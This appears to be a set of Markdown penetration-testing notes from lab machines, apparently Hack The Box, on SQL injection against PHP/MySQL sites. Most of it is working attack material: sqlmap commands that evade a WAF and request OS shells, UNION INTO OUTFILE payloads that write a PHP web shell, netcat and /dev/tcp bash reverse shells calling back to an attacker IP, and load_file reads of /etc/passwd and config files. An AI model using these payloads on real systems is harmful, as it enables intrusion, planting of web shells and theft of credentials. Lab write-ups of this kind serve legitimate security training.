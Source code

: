 ```console
Connection: close
```
To bypass the **WAF**, I changed the **User-Agent header** to a **random header** and added a delay when scanning with SQLmap:
```console
sqlmap -u http://jarvis.htb/room.php?cod=1 -p cod --delay 2 --random-agent
```
### Getting a shell
MySQL has a built-in command that can be used to create and write system files. This command has the following format:
```console
mysql> select "text" INTO OUTFILE "file.txt"
```
One big drawback of this command is that it can be appended to an existing query using the **UNION SQL** token.
#### Manually
```url
http://10.10.10.143/room.php?cod=100 UNION SELECT 1,2,3,4,5,6,"<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/alo.php-- -
```
I then navigate to cmd.php and also create listener on local machine:
```console
nc -nlvp 8888
http://10.10.10.143/cmd.php?cmd=nc+-c+/bin/bash+10.10.16.5+8888
```
*or use burp to encode payload to URL format*
#### sqlmap
```console
sqlmap -u http://jarvis.htb/room.php?cod=1 -p cod --delay 2 --random-agent --os-pwn
sqlmap -u http://jarvis.htb/room.php?cod=1 -p cod --delay 2 --random-agent --os-shell
```
#### phpMyAdmin
From the SQL console we can write a web shell:
```sql
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/html/sh3ll.php"
```
### MYSQL Read content of a file
Need the `**filepriv**`, otherwise you will get the error : `ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`
To read a file you need the FILE right (allow you to use load_file()) and the file full path.
```sql
# You can also use if there are some restrictions
union all select 1,@@secure_file_priv,3,4;-- -

# Classic use
union all select load_file('/etc/passwd'),2,3,4;-- -
(!!!!!/var/www/html/config.php)

# If quotes are filtered, you can use hexa
union all select load_file(0x2f6574632f706173737764),2,3,4;-- -
```
### Using CURL
```console
curl -s -X POST http://10.10.11.128 -d "player=admin' union select user();-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    #Sorry, admin you are not eligible due to already qualifying. -> admin
    
# [X-Forwarded-For Exploitation](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/X-Forwarded-For%20Exploitation.md)
curl -X GET -H 'X-FORWARDED-FOR: ;bash -c "bash -i >& /dev/tcp/10.10.16.5/8888 0>&1";' --cookie "PHPSESSID=v019sde6sgv2od2oaaq71g813n" 'http://10.10.11.128/firewall.php'
curl -s -X POST -b 'PHPSESSID=tie6r4uno69o57gbuesapskfku' --data-binary 'flag=UHC{F1rst_5tep_2_Qualify}' 'http://10.10.11.128/challenge.php' -L
```